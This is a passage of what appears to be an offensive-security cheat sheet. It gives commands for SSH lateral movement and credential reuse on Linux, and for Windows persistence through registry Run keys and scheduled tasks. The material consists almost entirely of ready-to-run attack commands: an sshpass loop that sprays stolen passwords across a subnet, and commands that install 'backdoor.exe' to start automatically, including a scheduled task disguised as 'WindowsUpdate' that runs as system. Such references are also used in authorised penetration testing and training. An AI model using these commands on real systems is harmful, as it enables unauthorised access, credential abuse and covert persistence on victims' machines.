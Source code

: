 ### Linux Lateral Movement

#### SSH-Based Movement
```bash
# SSH with password
ssh username@10.1.1.10

# SSH with key
ssh -i private_key username@10.1.1.10

# SSH with agent forwarding
ssh -A username@10.1.1.10

# SSH through jump host
ssh -J user@pivot-host user@target-host
```

#### Credential Reuse
```bash
# Test found credentials across network
for ip in 10.1.1.{10..20}; do
    echo "Testing $ip"
    sshpass -p 'password' ssh -o ConnectTimeout=3 user@$ip 'whoami' 2>/dev/null
done

# SU/sudo with found passwords
su - otheruser
sudo -u otheruser /bin/bash
```

## Persistence Techniques

### Windows Persistence

#### Registry Run Keys
```cmd
# Current user run key
reg add HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v backdoor /t REG_SZ /d "C:\backdoor.exe"

# Local machine run key (requires admin)
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v backdoor /t REG_SZ /d "C:\backdoor.exe"

# Run once keys
reg add HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce /v backdoor /t REG_SZ /d "C:\backdoor.exe"
```

#### Scheduled Tasks
```cmd
# Create scheduled task
schtasks /create /sc onstart /tn "WindowsUpdate" /tr "C:\backdoor.exe" /ru system /f

# User logon trigger
schtasks /create /sc onlogon /tn "UserTask" /tr "C:\backdoor.exe" /ru %USERNAME% /f

# Time-based trigger
schtasks /create /sc daily /st 09:00 /tn "DailyTask" /tr "C:\backdoor.exe" /ru system /f

# List tasks
schtasks /query /fo list /v
```
